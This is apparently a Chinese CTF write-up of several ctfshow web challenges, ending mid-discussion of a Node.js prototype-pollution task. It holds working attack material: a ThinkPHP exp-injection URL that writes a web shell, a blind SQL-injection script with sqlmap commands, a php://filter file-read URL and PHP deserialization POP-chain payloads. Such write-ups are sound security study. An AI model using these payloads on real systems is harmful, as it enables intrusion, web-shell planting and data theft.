








+++
title = "ctfshowF5杯"
slug = "ctfshow-f5-cup"
description = "刷"
date = "2025-01-17T10:07:17"
lastmod = "2025-01-17T10:07:17"
image = ""
license = ""
categories = ["ctfshow"]
tags = ["thinkphp", "mysql", "php"]
+++

## lastsward's website

先弱密码登录

```
admin\123456
```

看路由好像是tp3.2.3，报错看看能不能成功





是一个NDAY进行exp注入，将游戏名字修改，利用`dumpfile`写入`shell`，不过这个东西，写入文件不可覆盖

```
/index.php/Home/Game/gameinfo/gameId/?gameId[0]=exp&gameId[1]==2 into dumpfile "/var/www/html/shell.php"--+
```



## eazy-unserialize

```php
<?php
include "mysqlDb.class.php";

class ctfshow{
    public $method;
    public $args;
    public $cursor;

    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
        $this->getCursor();
    }

    function getCursor(){
        global $DEBUG;
        if (!$this->cursor)
            $this->cursor = MySql::getInstance();

        if ($DEBUG) {
            $sql = "DROP TABLE IF  EXISTS  USERINFO";
            $this->cursor->Exec($sql);
            $sql = "CREATE TABLE IF NOT EXISTS USERINFO (username VARCHAR(64),
            password VARCHAR(64),role VARCHAR(256)) CHARACTER SET utf8";

            $this->cursor->Exec($sql);
            $sql = "INSERT INTO USERINFO VALUES ('CTFSHOW', 'CTFSHOW', 'admin'), ('HHD', 'HXD', 'user')";
            $this->cursor->Exec($sql);
        }
    }

    function login() {
        list($username, $password) = func_get_args();
        $sql = sprintf("SELECT * FROM USERINFO WHERE username='%s' AND password='%s'", $username, md5($password));
        $obj = $this->cursor->getRow($sql);
        $data = $obj['role'];

        if ( $data != null ) {
            define('Happy', TRUE);
            $this->loadData($data);
        }
        else {
            $this->byebye("sorry!");
        }
    }

    function closeCursor(){
        $this->cursor = MySql::destroyInstance();
    }

    function lookme() {
        highlight_file(__FILE__);
    }

    function loadData($data) {

        if (substr($data, 0, 2) !== 'O:') {
            return unserialize($data);
        }
        return null;
    }

    function __destruct() {
        $this->getCursor();
        if (in_array($this->method, array("login", "lookme"))) {
            @call_user_func_array(array($this, $this->method), $this->args);
        }
        else {
            $this->byebye("fuc***** hacker ?");
        }
        $this->closeCursor();
    }

    function byebye($msg) {
        $this->closeCursor();
        header("Content-Type: application/json");
        die( json_encode( array("msg"=> $msg) ) );
    }
}

class Happy{
    public $file='flag.php';

    function __destruct(){
        if(!empty($this->file)) {
            include $this->file;
        }
    }

}

function ezwaf($data){
    if (preg_match("/ctfshow/",$data)){
        die("Hacker !!!");
    }
    return $data;
}
if(isset($_GET["w_a_n"])) {
    @unserialize(ezwaf($_GET["w_a_n"]));
} else {
    new CTFSHOW("lookme", array());
}
```

看到反序列化的这部分，如果没有反序列化就`new`一个`CTFSHOW`，那就说明前面的没啥用，我们就看后面的反序列化就可以了

```php
<?php
class Happy{
    public $file='/flag';
}
$a=new Happy();
echo serialize($a);
```

```
/?w[a_n=O:5:"Happy":1:{s:4:"file";s:5:"/flag";}
```

## eazy-unserialize-revenge

我觉得他防止的非预期不知道是啥，我还是直接就打通了

## 迷惑行为大赏之盲注

看题目肯定是盲注，慢慢测试发现重置密码的部分可以布尔盲注

```
admin' and 1=1--+
admin' and 1=2--+
```





直接布尔盲注就可以了，先用sqlmap一把梭哈吧

```powershell
python sqlmap.py -u "http://1cb1c469-a625-4030-baed-3eaeddda9f18.challenge.ctf.show/forgot.php" --data="username=admin" -D 测试 -T 15665611612 -C "`what@you@want`" --dump --batch

python sqlmap.py -u "http://1cb1c469-a625-4030-baed-3eaeddda9f18.challenge.ctf.show/forgot.php" --data="username=admin" -D "测试" -T "15665611612" -C "``what@you@want``" --dump --batch

```

慢慢等，但是这也太慢了吧，这里不能使用普通的ascii，发现里面有中文得用十六进制，先写循环确定长度，然后再枚举

```python
import requests

url = 'http://0e8dc8cb-095f-468e-94e0-fed1a2ea7c51.challenge.ctf.show/forgot.php'
i=0

target=""
while True:
    i+=1
    tail=32
    head=127
    while tail<head:
        mid=(head+tail)//2
        # 数据库
        # payload = f"admin'AND 1=(ascii(substr((select HEX(group_concat(schema_name)) from information_schema.schemata),{i},1))>{mid})#"
        # 表
        # payload = f"admin'AND 1=(ascii(substr((select HEX(group_concat(table_name)) from information_schema.tables where table_schema=UNHEX('e6b58be8af95')),{i},1))>{mid})#"
        # 列
        # payload = f"admin'AND 1=(ascii(substr((select HEX(group_concat(column_name)) from information_schema.columns where table_name=UNHEX('3135363635363131363132')),{i},1))>{mid})#"
        # flag
        payload = f"admin'AND 1=(ascii(substr((select HEX(group_concat(`what@you@want`)) from `测试`.`15665611612`),{i},1))>{mid})#"
        # print(payload)
        # print(tail)
        # print(head)
        data = {"username": payload}
        r=requests.post(url,data=data)
        if "用户存在，但是不允许修改密码 :P" in r.text:
            tail = mid + 1
        else:
            head = mid
    if tail != 32:
        target += chr(tail)
    else:
        break
    print(f"\nFinal target: {target}")

```

说实话非常讲细节了，长度和查内容完全不一样属于是，不过我二分法的话就只需要查内容就可以了

## Web逃离计划

弱密码是`admin\admin888`，但是并没有进后台，查看源码发现有任意文件读取漏洞，能读取没有报错但是好像不能正常读

```
/lookMe.php?file=php://filter/convert.base64-encode/resource=lookMe.php
```

```php
<?php

error_reporting(0);
if ($_GET['file']){
    $filename = $_GET['file'];
    if ($filename=='logo.png'){
        header("Content-Type:image/png");
        echo file_get_contents("./static/img/logo.png");
    }else{
        ini_set('open_basedir','./');
        if ($filename=='hint.php'){
            echo 'nononono!';
        } else{
            if(preg_match('/read|[\x00-\x2c]| |flag|\.\.|\.\//i', $filename)){
                echo "hacker";
            }else{
                include($filename);
            }
        }
    }
}else{
    highlight_file(__FILE__);
}
```

所以呢，没了下一步该怎么干，想直接日志文件包含，发现东西位置可能被移动了，读取`hint.php`看看

```php
<?php
echo "Here are some key messages that are hidden but u can't read</br>u may try other ways to read this file to get hints";
//You can only read the following(Files in the current directory),and  only top 3 are necessary:
//ezwaf.php
//class.php
//index.php
//lookMe.php
```

那就一直读就好了

```php
/*ezwaf.php*/
<?php
function get($data){
    $data = str_replace('forfun', chr(0)."*".chr(0), $data);
    return $data;
}

function checkData($data){
    if(stristr($data, 'username')!==False&&stristr($data, 'password')!==False){
        die("fuc**** hacker!!!\n");
    }
    else{
        return $data;
    }
}

function checkLogData($data){
    if (preg_match("/register|magic|PersonalFunction/",$data)){
        die("fuc**** hacker!!!!\n");
    }
    else{
        return $data;
    }
}
```

```php
/*class.php*/
<?php
error_reporting(0);

class Login{
    protected $user_name;
    protected $pass_word;
    protected $admin;
    public function __construct($username,$password){
        $this->user_name=$username;
        $this->pass_word=$password;
        if ($this->user_name=='admin'&&$this->pass_word=='admin888'){
            $this->admin = 1;
        }else{
            $this->admin = 0;
        }
    }
    public function checkStatus(){
        return $this->admin;
    }
}


class register{
    protected $username;
    protected $password;
    protected $mobile;
    protected $mdPwd;

    public function __construct($username,$password,$mobile){
        $this->username = $username;
        $this->password = $password;
        $this->mobile = $mobile;
    }

    public function __toString(){
        return $this->mdPwd->pwd;
    }
}

class magic{
    protected $username;

    public function __get($key){
        if ($this->username!=='admin'){
            die("what do you do?");
        }
        $this->getFlag($key);
    }

    public function getFlag($key){
        echo $key."</br>";
        system("cat /flagg");
    }


}

class PersonalFunction{
    protected $username;
    protected $password;
    protected $func = array();

    public function __construct($username, $password,$func = "personalData"){
        $this->username = $username;
        $this->password = $password;
        $this->func[$func] = true;
    }

    public function checkFunction(array $funcBars) {
        $retData = null;

        $personalProperties = array_flip([
            'modifyPwd', 'InvitationCode',
            'modifyAvatar', 'personalData',
        ]);

        foreach ($personalProperties as $item => $num){
            foreach ($funcBars as $funcBar => $stat) {
                if (stristr($stat,$item)){
                    $retData = true;
                }
            }
        }


        return $retData;
    }

    public function doFunction($function){
        // TODO: 出题人提示：一个未完成的功能，不用管这个，单纯为了逻辑严密.
        return true;
    }


    public function __destruct(){
        $retData = $this->checkFunction($this->func);
        $this->doFunction($retData);

    }
}
```

```php
/*index.php*/
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <link rel="stylesheet" href="./static/layui/css/layui.css">
    <style type="text/css">
        body{
            width:100%;
            height: 100%;
            background:#FFF
            url(./static/img/bak.jpg)
        }
        .container{
            width: 420px;
            height: 320px;
            min-height: 320px;
            max-height: 320px;
            position: absolute;
            top: 0;
            left: 0;
            bottom: 0;
            right: 0;
            margin: auto;
            padding: 20px;
            z-index: 130;
            border-radius: 8px;
            background-color: #fff;
            box-shadow: 0 3px 18px rgba(100, 0, 0, .5);
            font-size: 16px;
        }
        .close{
            background-color: white;
            border: none;
            font-size: 18px;
            margin-left: 410px;
            margin-top: -10px;
        }

        .layui-input{
            border-radius: 5px;
            width: 300px;
            height: 40px;
            font-size: 15px;
        }
        .layui-form-item{
            margin-left: -20px;
        }
        #logoid{
            margin-top: -10px;
            padding-left:100px;
            padding-bottom: 15px;
        }
        .layui-btn{
            margin-left: -50px;
            border-radius: 5px;
            width: 350px;
            height: 40px;
            font-size: 15px;
        }
        .verity{
            width: 120px;
        }
        .font-set{
            font-size: 13px;
            text-decoration: none;
            margin-left: 120px;
        }
        a:hover{
            text-decoration: underline;
        }

    </style>
</head>
<body>
<?php
include "class.php";
include "ezwaf.php";
session_start();
$username = $_POST['username'];
$password = $_POST['password'];
$finish = false;
if ($username!=null&&$password!=null){
    $serData = checkLogData(checkData(get(serialize(new Login($username,$password)))));
    $login = unserialize($serData);
    $loginStatus = $login->checkStatus();
    if ($loginStatus){
        $_SESSION['login'] = true;
        $_COOKIE['status'] = 0;
    }
    $finish = true;
}
?>
<form class="layui-form" action="" method="post">
    <div class="container">
        <button class="close" title="关闭">X</button>
        <div class="layui-form-mid layui-word-aux">
            <?php
            if ($finish){
                if (1 == $loginStatus){

                    ?>
                    
                    <?php

                }else{
                    echo '';
                }
                ?>
                <?php
            }else{
                ?>
                
                <?php
            }
            ?>
        </div>
        <div class="layui-form-item">
            <label class="layui-form-label">用户名</label>
            <div class="layui-input-block">
                <input type="text" name="username" required  lay-verify="required" placeholder="请输入用户名" autocomplete="off" class="layui-input">
            </div>
        </div>
        <div class="layui-form-item">
            <label class="layui-form-label">密 &nbsp;&nbsp;码</label>
            <div class="layui-input-inline">
                <input type="password" name="password" required lay-verify="required" placeholder="请输入密码" autocomplete="off" class="layui-input">
            </div>

            <?php
            if ($finish){
                if (!$loginStatus&&$username==='admin'){
                    echo '<div class="layui-form-mid layui-word-aux">不是Sql(滑稽</div>';
                }
            }
            ?>

        </div>
        <div class="layui-form-item">
            <div class="layui-input-block">
                <button class="layui-btn" lay-submit lay-filter="formDemo">登陆</button>
            </div>
        </div>
    </div>
</form>
<script type="text/javascript" src="static/layui/layui.js"></script>
<script>
    layui.use(['form', 'layedit', 'laydate'], function(){
        var form = layui.form
            ,layer = layui.layer
        <?php
        if ($_SESSION['login']){


        ?>layer.msg('登陆成功，欢迎您，然而并没有什么卵用(Y4小可爱不说假话-eg:Y4说他不做题了睡了)', {
            time: 2500, //20s后自动关闭
        });
        <?php
        }
        ?>
        <?php
        if ($finish&&$username=='admin'){
        $_SESSION['login'] = false;
        if ($password!='admin888'){
        ?>
        layer.msg('密码错误，登陆成功有隐藏礼包', {
            time: 1000, //20s后自动关闭
        });
        <?php
        }}elseif($finish&&$username!='admin'){
        $_SESSION['login'] = false;
        ?>layer.msg('用户名错误，登陆成功有隐藏礼包', {
            time: 1000, //20s后自动关闭
        });
        <?php
        }
        ?>
        //监听提交
        form.on('submit(demo1)', function(data){
            layer.alert(JSON.stringify(data.field), {
                title: '最终的提交信息'
            })
            return false;
        });


    });
</script>
</body>
</html>
```

一看这个反序列化接口的样子看来是逃逸了，把文件保存下来看看链子是什么样子的



每次可以逃逸三个字符，

```
PersonalFunction::__destruct()->register::__toString()->magic::__get()->magic::getFlag()
```



是由这个函数触发`__toString()`，写出`poc`，说实话这种串起来的，我并不熟悉，属于是很牵强的给写出来了，其中还有就是php版本不高的时候`protected`可以被`public`替换

```php
<?php
class Login{
    public $user_name;
    public $pass_word;
    public $admin;
}


class register{
    public $mdPwd;
}

class magic{
    public $username;
}

class PersonalFunction{
    public $func = array();

}
$a=new magic();
$a->username="admin";
$b=new register();
$b->mdPwd=$a;
$c=array($b);
$d=new PersonalFunction();
$d->func=$c;

//echo serialize($d)."\n";
//echo urlencode(serialize($d))."\n";
$e=new Login();
$e->user_name="admin";
$e->pass_word=$d;
$e->admin=0;
echo serialize($e);
```

还有waf绕过一下就可以了，其中我们这里还要自己补上`";s:9:"pass_word";`才能正常的进行反序列化

```
O:5:"Login":3:{s:9:"user_name";s:5:"admin";s:9:"pass_word";s:141:"";s:9:"pass_word";O:16:"PersonalFunction":1:{s:4:"func";a:1:{i:0;O:8:"register":1:{s:5:"mdPwd";O:5:"magic":1:{s:8:"username";s:5:"admin";}}}}";s:5:"admin";i:0;}
```

```php
<?php
class Login{
    public $user_name;
    public $pass_word;
    public $admin;
}


class register{
    public $mdPwd;
}

class magic{
    public $username;
}

class PersonalFunction{
    public $func = array();

}
$a=new magic();
$a->username="admin";
$b=new register();
$b->mdPwd=$a;
$c=array($b);
$d=new PersonalFunction();
$d->func=$c;
$f=serialize($d);
//echo serialize($d)."\n";
//echo urlencode(serialize($d))."\n";
$e=new Login();
$e->user_name="admin";
$e->pass_word='";s:9:"pass_word";'.$f;
$e->admin=0;
echo serialize($e);
```

```
O:5:"Login":3:{s:9:"user_name";s:5:"admin";s:9:"pass_word";s:141:"";s:9:"pass_word";O:16:"PersonalFunction":1:{s:4:"func";a:1:{i:0;O:8:"register":1:{s:5:"mdPwd";O:5:"magic":1:{s:8:"username";s:5:"admin";}}}}";s:5:"admin";i:0;}
```

说实话被饶了很久我都不想看了，其实我逃逸就凭感觉就知道是`admin";s:9:"pass_word";s:141:"`而为啥给我绕了一下午呢，就是我没注意看代码



这里如果要进行正确的反序列化需要补上password那一段，才可以，但是我给忘了，就整了一下午，而且家里也比较吵，哎

```python
print(len('admin";s:9:"pass_word";s:142:"'))
# 刚好30个字符
print("forfun"*10)
```

还要绕过黑名单，可以利用大小写不敏感来解决

```
username=forfunforfunforfunforfunforfunforfunforfunforfunforfunforfun&password=1";s:9:"pass_word";O:16:"personalFunction":1:{s:4:"func";a:1:{i:0;O:8:"Register":1:{s:5:"mdPwd";O:5:"Magic":1:{s:8:"username";s:5:"admin";}}}}";s:5:"admin";i:0;}
```

终于做出来了啊呜呜呜

## 未完成的项目

```js
var createError = require('http-errors');
var express = require('express');
var path = require('path');
var cookieParser = require('cookie-parser');
var logger = require('morgan');
var indexRouter = require('./routes/index'); /* 鏈嬪弸鎴戞槑澶╀笂鐝鍋囦簡锛岄厤缃垜宸茬粡缁欎綘鎼炲ソ浜嗭紝浣犲垰瀛odejs锛宲ublic鐩綍涓嬫湁鎴戠粰浣犳暡鐨勭ず渚嬶紝浣犺窡鐫€鏁蹭竴涓嬶紝鍔犵偣閿欒閫昏緫灏卞彲浠ヤ笂绾夸簡锛屽埆蹇樹簡鍒犻櫎鍟� */
var app = express();

app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'html');


app.use(logger('dev'));
app.use(express.json());
app.use(express.urlencoded({ extended: false }));
app.use(cookieParser());
app.use(express.static(path.join(__dirname, 'public')));

app.use('/', indexRouter);
//app.use('/users', usersRouter);

// catch 404 and forward to error handler
app.use(function(req, res, next) {
    res.json({
        "error": "404"
    })
    next(createError(404));
});

// error handler

module.exports = app;
```

这个很明显没有什么用啊，然后扫描出来了源码

```js
var express = require('express');
var router = express.Router();
var db = require('mysql-promise')
const mysql = require( 'mysql' );
const connection = require("mysql");


class Database {
  constructor( config ) {
    this.connection = mysql.createConnection( config );
  }
  query( sql, args ) {
    return new Promise( ( resolve, reject ) => {
      this.connection.query( sql, args, ( err, rows ) => {
        if ( err )
          return reject( err );
        resolve( rows );
      } );
    } );
  }
  close() {
    return new Promise( ( resolve, reject ) => {
      this.connection.end( err => {
        if ( err )
          return reject(err);
        resolve();
      } );
    } );
  }
}


const isObject = obj => obj && obj.constructor && obj.constructor === Object;
function merge(a, b) {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}

function clone(a) {
  return merge({}, a);
}

router.get('/',function (req,res,next) {
  console.log("index");
  //res.render('index', {title: 'HTML'});
})


/* GET home page. */
router.post('/', function(req, res, next) {
    var body = JSON.parse(JSON.stringify(req.body));

    if (body.host != undefined) {
        return res.json({
            "msg":"fu** hacker!!!"
        })
    }

    var num = 0
    for(i in body){
        num ++;
    }
    if(num!=2){
        return res.json({
            "msg":"fu** hacker!!!"
        })
    }else{
        if(body.username==undefined||body.password==undefined){
            return res.json({
                "msg":"fu** hacker!!!"
            })
        }
    }

    var copybody = clone(body)
    var host = copybody.host == undefined ? "localhost" : copybody.host
    var flag = "123432432432"
    var config = {
      host: host,
      user: 'root',
      password: 'root',
      database: 'users'
    };

    let database=new Database(config);
    var user = copybody.username
    var pass = copybody.password
    function isInValiCode(str) {
        var reg= /-| |#|[\x00-\x2f]|[\x3a-\x3f]/;
        return reg.test(str);
    }
    if (isInValiCode(user)){
        return res.json({
            "msg":"no hacker!!!"
        })
    }


  let someRows, otherRows;
    database.query( 'select * from user where user= ? and passwd =?', [user,pass] )
      .then( rows => {

        if (1 == rows[0].Id) {
          res.json({
            "msg":flag
          })
        }

      } )
      .then( rows => {
        otherRows = rows;
        return database.close();
      }, err => {
        return database.close().then( () => { throw err; } )
      } )
      .then( () => {
        res.json({
          "error": "err","msg":"user or pass err"
        })
      })
      .catch( err => {
        res.json({
            "error": "err","msg":"user or pass err"
        })
      } )
});

module.exports = router;
```

看到了`merge`和`constructor`，很明显的原型链污染了，但是

